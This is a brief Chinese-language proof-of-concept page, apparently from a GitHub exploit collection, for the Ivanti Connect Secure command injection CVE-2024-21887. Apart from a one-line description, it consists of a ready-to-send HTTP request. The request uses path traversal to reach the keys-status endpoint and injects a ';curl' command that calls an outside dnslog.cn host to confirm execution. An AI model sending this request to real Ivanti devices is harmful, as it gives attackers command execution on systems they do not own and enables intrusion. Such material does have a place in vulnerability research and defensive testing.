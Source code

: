 ## Ivanti_Connect_Secure远程命令注入漏洞(CVE-2024-21887)

Ivаｎti Cоnnесt Sесurе（9.х、22.х）和 Ivаnti Pоliсу Sесurе 的 Wеb 组件中存在一个命令注入漏洞，使得经过身份验证的管理员能够发送特别构建的请求并在设备上执行任意命令 。

## poc
```
GET /api/v1/totp/user-backup-code/../../license/keys-status/%3bcurl%20z5i19y.dnslog.cn HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2224.3 Safari/537.36
Connection: close
Accept-Encoding: gzip, deflate
```

![df97ad07a0d2c2d795cffdd955b1a38b](../../images/6c54dede-fb0f-4749-99c6-1324cae93042.png)
